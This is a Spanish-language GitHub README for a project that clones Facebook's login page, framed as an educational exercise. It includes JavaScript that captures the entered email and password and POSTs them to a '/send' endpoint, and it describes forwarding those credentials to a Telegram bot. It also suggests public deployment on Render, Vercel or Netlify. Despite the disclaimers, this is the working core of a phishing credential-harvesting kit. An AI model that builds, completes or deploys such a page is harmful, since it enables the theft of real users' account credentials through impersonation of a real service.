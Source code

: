 # 📘 Facebook Login Clone - Proyecto Educativo

> ⚠️ **Este proyecto es únicamente con fines educativos y de práctica. No está afiliado ni pretende suplantar a Facebook en ningún aspecto.**

Este es un laboratorio práctico donde se clona visualmente la página principal de Facebook. El propósito es comprender mejor la estructura HTML, estilos CSS, e interacción básica con formularios y JavaScript.  
Ideal para estudiantes, desarrolladores en formación o entusiastas del desarrollo web que buscan mejorar sus habilidades.

---

## ✨ Características

- 🔹 Interfaz visual muy similar al login original de Facebook.
- 🔹 Uso de HTML5, CSS3 y JavaScript puro.
- 🔹 Simulación de envío de formularios.
- 🔹 Diseño adaptable con elementos de footer y multilenguaje como en la versión real.
- 🔹 Estructura de proyecto ordenada y fácil de modificar.

---

## 📂 Estructura del Proyecto

```
facebook-clone/
├── css/
│   └── styles.css
├── images/
│   ├── fb.ico
│   └── logo.svg
├── index.html
└── README.md
```

---

## 🧠 ¿Qué puedes aprender con este proyecto?

- Cómo estructurar una landing page moderna.
- Uso de formularios y eventos en JavaScript.
- Aplicar estilos similares a interfaces reales con CSS.
- Buenas prácticas al organizar archivos en un proyecto frontend.
- Introducción a la simulación de interacciones cliente-servidor.

---

## 🚀 ¿Cómo usarlo?

1. Clona este repositorio:
   ```bash
   git clone https://github.com/santipj/Facebook-Login-Clone.git
   ```
2. Abre el archivo `index.html` con tu navegador.
3. Explora, modifica y experimenta.

> Puedes desplegarlo fácilmente en plataformas como **Render**, **Vercel** o **Netlify** para compartirlo con otros.

---

## ⚠️ Importante

Este proyecto **no debe usarse con fines maliciosos**. Fue creado para aprender cómo se construyen interfaces web complejas desde cero. Cualquier uso indebido es responsabilidad del usuario.

---

## 📬 ¿Tienes ideas o sugerencias?

¡Los pull requests, estrellas ⭐ y forks son bienvenidos! Si tienes ideas para mejorar este proyecto o quieres compartir tu versión, no dudes en contribuir.

---

## 🧑‍💻 Autor

Desarrollado por [Santipj](https://github.com/santipj) como parte de su aprendizaje en desarrollo web y ciberseguridad.

---

## 📝 Licencia

Este proyecto se distribuye bajo la Licencia MIT.


---

## 🤖 Integración con Bot de Telegram (Simulación de Envío de Datos)

Este proyecto incluye una función JavaScript que **simula** el envío de las credenciales ingresadas en el formulario a un bot de Telegram. Esta funcionalidad permite practicar cómo enviar datos desde el frontend hacia un backend (en este caso simulado como `/send`).

### 📦 Código relevante (`index.html`)

```html
<script>
  function sendToTelegram(event) {
    event.preventDefault(); // Evita que recargue la página

    const email = document.getElementById("Email").value;
    const pass = document.getElementById("Password").value;

    fetch("/send", {
      method: "POST",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify({
        message: `📥 Nuevo login:\n👤 Email: ${email}\n🔐 Password: ${pass}`
      })
    })
    .then(res => res.text())
    .then(data => {
      console.log("Respuesta del servidor:", data);
    })
    .catch(err => {
      console.error("Error al enviar:", err);
    });
  }
</script>
```

⚠️ **Advertencia:** Esta función no enviará nada a Telegram si no existe un backend implementado para recibir las solicitudes POST en la ruta `/send`. Se recomienda **NO usar esta funcionalidad en entornos reales sin control** y únicamente con fines de aprendizaje.

Puedes implementar fácilmente el receptor en Node.js, Python Flask, o cualquier otro backend que reenvíe los datos a la API oficial de Telegram Bots.


